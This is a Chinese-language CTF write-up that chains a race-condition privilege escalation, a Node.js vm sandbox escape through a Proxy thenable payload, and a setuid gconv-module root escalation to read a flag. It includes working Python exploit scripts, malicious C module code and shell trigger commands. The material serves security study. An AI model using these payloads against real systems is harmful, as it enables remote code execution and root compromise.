## 信息收集
1. 
   可以看到页面显示了几个接口还有当前的身份
   - `GET /api/me`
   - `GET /api/stats`
   - `POST /api/verify`
   - `POST /api/run`
   - `GET /api/run?cursor=N`
2. 访问每个接口抓包寻找有用信息
   1. `GET /api/me`该接口的响应头中有`X-Session-Id: fd1ddc75e8243d6c3b22d7f23695b031`会将后续所有请求的会话凭证，因此需要先固定好自己的 `X-Session-Id`，让后续所有请求都在同一个 session中
      如何实现：每次请求都在请求头中带固定携带已经获取的X-Session-Id即可
   2. `GET /api/stats`这个接口会给出类似 `last_verify_activity` 一类的状态信息。从这个字段我们可以得知后台应该有个东西在按固定频率持续跑。
   3. `POST /api/verify`这个接口本身的语义不像“同步校验成功就直接升权”的风格，访问返回的信息"Queued for verifier heartbeat"表明请求被放入了一个队列中
   4. 结合`GET /api/stats`和`POST /api/verify`两个接口可以大致推断
      1. 外部请求可能只是把自己放进一个待验证状态
      2. 后面还有另一个固定节奏的内部请求，会来处理这个状态
      3. 只有这两个动作在时间上撞到一起，权限才会真的变化
      也就是说，这题前半段大概率不是传统认证逻辑，而是 race condition
      如何通过race condition实现提权
      ```
      多线程高频发送 POST /api/verify
      同时循环轮询 GET /api/me 查看 role 字段
      一旦 role 从 guest 变为 admin，停止攻击
      ```
      已经提权成功
   5. 拿到 admin 以后，再进一步扫描可以发现两个隐藏路由
      ```http
      GET /admin
      GET /admin/debug/source
      ```
      
      `/admin/debug/source`直接暴露了源码
      
   6. 提取`POST /api/run`和`GET /api/run?cursor=N`接口的源码并分析源码逻辑`POST /api/run`
      ```js
      app.post('/api/run', async (req, res) => {
         const store = als.getStore();
         if (!store || store.role !== 'admin') return res.status(403).json({ error: 'Denied' });

         const { code } = req.body;
         if (typeof code !== 'string' || code.length > 255) return res.status(400).send('WAF: Length');

         const blacklist = /then|constructor|process|require|eval|=>|catch/g;
         if (blacklist.test(code)) return res.status(400).send('WAF: Keyword');

         try {
            const acorn = require('acorn');
            const ast = acorn.parse(code, { ecmaVersion: 2020 });
            if (containsBlockedAstPattern(ast)) return res.status(400).send('WAF: Fold');
         } catch (e) {
            return res.status(400).send('Syntax Error');
         }

         const context = vm.createContext(Object.create(null));
         try {
            const result = await vm.runInContext(code, context, { timeout: 1000 });
            store.lastRunOutput = String(result);
            res.status(204).end();
         } catch (e) {
            res.status(500).send('Runtime Error');
         }
      });
      ```
      1. 先校验了身份，然后校验命令长度限制255
      2. 然后校验关键字黑名单
         - `then`
         - `constructor`
         - `process`
         - `require`
         - `eval`
         - `catch` 
         作用：直接拦截常见危险词和箭头函数 
       3. 然后进行AST 常量折叠检测
          作用：在语法树层面检测危险模式（比如 Function() 调用、eval() 调用、constructor 访问等）
       4. 最后真正执行在`vm.createContext(Object.create(null))`
          Object.create(null) 创建了一个无原型的干净对象，常规的 toString、valueOf 都不存在
          但是 await 会触发 result.then 的调用，这是逃逸的关键点
          ```js
          const result = await vm.runInContext(code, context, { timeout: 1000 });
          ``` 
          如何实现
          payload 的构造思路是这样的：
          ```
          1. 返回一个 `Proxy` 对象
          2. 当宿主因为 `await` 去取它的某个关键属性时，触发 `get` trap
          3. 在 trap 里拿到宿主回调
          4. 再借宿主回调的原型链和属性枚举，把关键能力在运行时拼出来
          ```
   7. `GET /api/run?cursor=N`
      ```  
      app.get('/api/run', (req, res) => {
         const store = als.getStore();
         if (!store || store.role !== 'admin') return res.status(403).json({ error: 'Denied' });

         const cursor = Number.parseInt(req.query.cursor, 10);
         if (!Number.isInteger(cursor) || cursor < 0) {
            return res.status(400).json({ error: 'Cursor required' });
         }

         const output = typeof store.lastRunOutput === 'string' ? store.lastRunOutput : '';
         res.json({ char: output[cursor] || '' });
      });
      ```
      执行结果会先被写到：`store.lastRunOutput`
      然后再通过：
      ```http
      GET /api/run?cursor=N
      ```
      一位一位取出来。
      1. payload
          ```python
            import requests
            import json

            URL = "http://127.0.0.1:41715"
            SID = "29888e2f02c32acc6016066350784122"

            def run_cmd(cmd):
               payload = f'new Proxy({{}},{{get(){{return function(a){{b=Reflect.ownKeys(a.__proto__)[4];c=a[b](decodeURI("return %70rocess"))();return a(c.mainModule[b]._load(decodeURI("child_%70rocess")).execSync("{cmd}"))}}}}}})'
               
               r = requests.post(f"{URL}/api/run",
                                 headers={"X-Session-Id": SID, "Content-Type": "application/json"},
                                 json={"code": payload})
               
               if r.status_code != 204:
                  print(f"Error: {r.status_code} - {r.text}")
                  return None
               
               result = ""
               cursor = 0
               while True:
                  r = requests.get(f"{URL}/api/run",
                                    headers={"X-Session-Id": SID},
                                    params={"cursor": cursor})
                  char = r.json().get("char", "")
                  if not char:
                        break
                  result += char
                  cursor += 1
               return result
            print(run_cmd("id"))
          ``` 
       2. 逃逸成功，不过可以看到当前身份权限太低需要提权
   8. 通过RCE执行ls命令发现当前目录下有一个`omni_pkexec.c`文件是setuid 程序的 C 源码，可以通过setuid提权
   9. RCE查看` omni_pkexec`用法`/usr/local/bin/omni_pkexec --help 2>&1`
   10. 攻击步骤
      1. 修改 gconv-modules 内容
         echo 'module OMNI-LEGACY// INTERNAL omni 2' > /tmp/gconv-modules
      2. 重命名 .so 文件
         mv /tmp/gconv_pwn.so /tmp/omni.so
      3. 设置环境变量并触发
         export CHARSET=OMNI-LEGACY//
         export SHELL=omni
         export OMNI_GCONV_PATH=/tmp
         /usr/local/bin/omni_pkexec
      1. 恶意 gconv-modules代码
         ```c
         #define _GNU_SOURCE
         #include <stdio.h>
         #include <stdlib.h>
         #include <unistd.h>

         int gconv_init(void) {
            // 这个函数在模块加载时执行
            FILE *fp = fopen("/flag", "r");
            if (fp) {
               char flag[256];
               fread(flag, 1, sizeof(flag), fp);
               fclose(fp);
               
               fp = fopen("/tmp/flag.txt", "w");
               if (fp) {
                     fwrite(flag, 1, strlen(flag), fp);
                     fclose(fp);
               }
            }
            return 0;
         }

         int gconv(void) {
            return 0;
         }
         ``` 
      2. POC
         ```python
         
         ```
## 完整链
```
1. 固定会话 ID                         //确保竞态条件在同一会话中
2. 竞态条件 → 成为 admin               //从 guest 提权到 admin
3. 隐藏路由扫描                        //找到 /admin/debug/source 获取源码
4. 分析 vm 执行逻辑,构造 Thenable 沙箱逃逸 payload    //绕过 WAF 执行系统命令 
5. 通过 Oracle 方式读取命令结果        //获取低权限命令执行结果
6. 触发 setuid 程序+gconv 模块提权     //从低权限提权到 root
7. 读取最终 /flag
```
## 具体步骤
1. 在服务端/tmp目录下创建evil.c源文件，注意分块传输base64编码后的内容，不让长度超过限制，然后解码，编译成omni.so文件
   ```python
   import requests
   import time
   import base64

   URL = "http://127.0.0.1:59995"
   SID = "a8fc75f9ed2425fa585d82e221b79bd8"

   def run_cmd(cmd):
      payload = f'new Proxy({{}},{{get(){{return function(a){{b=Reflect.ownKeys(a.__proto__)[4];c=a[b](decodeURI("return %70rocess"))();return a(c.mainModule[b]._load(decodeURI("child_%70rocess")).execSync("{cmd}"))}}}}}})'
      
      try:
         r = requests.post(f"{URL}/api/run",
                           headers={"X-Session-Id": SID, "Content-Type": "application/json"},
                           json={"code": payload},
                           timeout=10)
         if r.status_code != 204:
               return None
      except:
         return None
      
      result = ""
      cursor = 0
      while True:
         try:
               r = requests.get(f"{URL}/api/run",
                              headers={"X-Session-Id": SID},
                              params={"cursor": cursor},
                              timeout=10)
               if r.status_code != 200:
                  break
               char = r.json().get("char", "")
               if not char:
                  break
               result += char
               cursor += 1
         except:
               break
      return result

   print("=" * 60)
   print("Writing evil.c properly")
   print("=" * 60)

   # 清空并重写 evil.c
   evil_c = '''#define _GNU_SOURCE
   #include <stdio.h>
   #include <stdlib.h>

   void gconv_init(void) {
      system("chmod 777 /flag");
      system("cp /flag /tmp/flag.txt");
   }

   void gconv(void) {}
   '''

   c_b64 = base64.b64encode(evil_c.encode()).decode()
   total = len(c_b64)
   print(f"Base64 length: {total}")

   print("\n" + "=" * 60)
   print("STEP 3: Uploading base64")
   print("=" * 60)

   chunk_size = 30          # 每块 30 字符
   requests_per_batch = 300 # 每批 300 次请求
   batch_size = chunk_size * requests_per_batch  # 9000 字符
   wait_time = 30           # 每批休息 30 秒

   total_batches = (total + batch_size - 1) // batch_size

   print(f"    Total base64: {total} chars")
   print(f"    Chunk size: {chunk_size} chars")
   print(f"    Requests per batch: {requests_per_batch}")
   print(f"    Batch size: {batch_size} chars")
   print(f"    Total batches: {total_batches}")
   print(f"    Wait per batch: {wait_time} seconds")
   print(f"    Estimated time: {total_batches * wait_time // 60} minutes")

   for batch_num in range(total_batches):
      batch_start = batch_num * batch_size
      batch_end = min(batch_start + batch_size, total)
      batch = c_b64[batch_start:batch_end]
      
      print(f"\n    Batch {batch_num + 1}/{total_batches}")
      print(f"    Chars {batch_start}-{batch_end} ({len(batch)} chars)")
      
      # 分块写入
      for i in range(0, len(batch), chunk_size):
         chunk = batch[i:i+chunk_size]
         if batch_num == 0 and i == 0:
               run_cmd(f"echo -n '{chunk}' > /tmp/evil.b64")
         else:
               run_cmd(f"echo -n '{chunk}' >> /tmp/evil.b64")
      
      print(f"        Batch {batch_num + 1} complete")
      
      if batch_num < total_batches - 1:
         print(f"        Waiting {wait_time} seconds...")
         time.sleep(wait_time)

   print("\n" + "=" * 60)
   print("STEP 4: Verifying upload")
   print("=" * 60)

   result = run_cmd("wc -c < /tmp/evil.b64 2>/dev/null")
   print(f"    Uploaded: {result} bytes")
   print(f"    Expected: {total} bytes")

   if result and int(result) == total:
      print("    [SUCCESS] Upload complete!")
      run_cmd("base64 -d /tmp/evil.b64 > /tmp/evil.c")
   else:
      print("    [FAILED] Upload incomplete!")
      exit(1)

   print("\n" + "=" * 60)
   print("STEP 5: Verifying evil.c")
   print("=" * 60)
   print(run_cmd("cat /tmp/evil.c"))

   c_b64 = base64.b64encode(evil_c.encode()).decode()
   run_cmd("rm -f /tmp/evil.c /tmp/evil.so /tmp/flag.txt")
   run_cmd(f"echo '{c_b64}' | base64 -d > /tmp/evil.c")
   print("evil.c created")

   print("\n" + "=" * 60)
   print("Step 2: Compiling evil.so")
   print("=" * 60)
   run_cmd("gcc -shared -fPIC -o /tmp/evil.so /tmp/evil.c 2>&1")
   result = run_cmd("ls -la /tmp/evil.so")
   print(f"Compilation result: {result}")


   ``` 
   
2. 在/tmp目录下创建gconv-modules文件写入module OMNI-LEGACY// INTERNAL omni 2
   设置环境变量，通过将命令追加写入脚步文件绕过命令长度限制
   ```python
   run_cmd("echo 'module OMNI_LEGACY// INTERNAL omni 2' > /tmp/gconv-modules")
   run_cmd("echo 'export CHARSET=OMNI-LEGACY//;  ' > /tmp/setenv.sh")
   run_cmd("echo 'export SHELL=omni;  ' >> /tmp/setenv.sh")
   run_cmd("echo 'export OMNI_GCONV_PATH=/tmp ' >> /tmp/setenv.sh")
   print(run_cmd("cat /tmp/setenv.sh'"))
   ``` 
   
3. 然后同时运行/tmp/setenv.sh和/usr/local/bin/omni_pkexec
   ```python
   cmd = ". /tmp/setenv.sh && /usr/local/bin/omni_pkexec"
   run_cmd(cmd)
   print(run_cmd("ls -la /flag"))
   print(run_cmd("cat /flag 2>/dev/null"))
   ``` 
   
## 知识点整理
1. 会话固定与会话连续性保持（Session Continuity）
   1. 会话 ID：服务端用于区分不同客户端的状态标识，通常通过 Cookie 或自定义请求头传递。
   2. 会话固定：攻击者先获取一个合法会话 ID，然后强制受害者使用该 ID，从而劫持受害者身份
   3. 为什么本题需要进行会话固定
      1. 因为本题的权限提升逻辑是：后台有一个按 session 隔离的待验证队列 + 定时任务按 session 提升角色
      2. 逻辑拆解
         1. 发 POST /api/verify → 服务端把你的 X-Session-Id 放入队列
         2. 后台定时任务 → 从队列取一个 session_id → 修改该 session 对应的角色
         3. 查询 /api/me → 返回当前 session 的角色
      3. 逻辑结论：
         ``` 
         如果每次请求都换一个新 session
         → 永远在用“没有被队列处理过”的 session 查询
         → 永远看不到 admin
         ```
         ```
         如果一直用一个 session
         → 该 session 会被反复入队
         → 定时任务有可能处理到它
         → 再用同一个 session 查询 → 看到 admin
         ```
   4. 哪些其他类型的题目也需要“固定会话”或“保持同一身份”？
      
2. 竞态条件（Race Condition）与权限提升
   1. 竞态条件：多个线程/进程同时访问共享资源时，执行顺序不一致导致意外结果。
   2. 本题中，/api/verify 可能只是“提交验证请求”，后台有另一个定时任务扫描并提升权限。如果能在后台任务检查的时刻恰好多次触发 /api/verify，就可能提前或重复获得 admin。
   3. 扩展知识
      TOCTOU（Time of Check to Time of Use）：检查与使用之间的时间差导致漏洞。常见于文件上传、权限修改、支付逻辑。
      防御：使用原子操作、锁、事务、信号量。
3. 隐藏路由/接口枚举
   1. 常见手段：
      目录扫描（dirsearch、gobuster、ffuf）
      前端 JS 文件中搜索路由关键词（/api/、/admin、debug、source）
      根据已知接口命名规律推测（如 /api/me → /admin/me）
      响应头中泄露（X-Powered-By、Server 等不相关，但有时会暴露路由）
   2. 本题用法：
      在获得 admin 权限后，用同样固定的 X-Session-Id 尝试访问：
      ```
      GET /admin
      GET /admin/debug
      GET /admin/debug/source
      ```
      其中 /admin/debug/source 返回了后端源码。
   3. 扩展知识：
      有些框架会自动暴露路由列表（如 Spring Boot Actuator /mappings）
      404 页面的差异可以判断路径是否存在（错误信息不同、响应长度不同）
      HTTP 方法探测：OPTIONS /admin 可能返回 Allow: GET,POST
4. AST 与常量折叠检测
   1. 知识点解释
      AST（Abstract Syntax Tree）：代码的树状结构表示。
      常量折叠：编译器优化，如 1 + 2 直接变成 3。
      本题用 acorn 解析代码 AST，然后调用 containsBlockedAstPattern 检查是否有危险模式（如 Function、eval 的调用）
   2. 扩展知识
      AST 绕过的常见方法：
         使用 Reflect、Proxy 动态访问属性。
         利用 [][‘flat’][‘constructor’] 等怪异语法。
         通过 Object.getOwnPropertyDescriptor 获取隐藏方法。
      防御：使用 eslint 或自定义 AST 规则，但动态代码很难完全静态检测。
5. JavaScript 沙箱逃逸（vm 模块与 thenable）
   1. 知识点解释
      Node.js 的 vm 模块可创建隔离的 JavaScript 执行环境。
      但 vm 并非绝对安全，通过 thenable 对象（即包含 .then 方法的对象）可以逃逸。
      当 await 一个 thenable 对象时，Node.js 会调用它的 .then 方法，并传入宿主环境的 resolve 函数。
      通过 resolve 的构造函数或原型链，可能拿到未隔离的对象（如 process、require）
   2. 本题用法
      黑名单过滤了 then、constructor、process、require 等字符串。
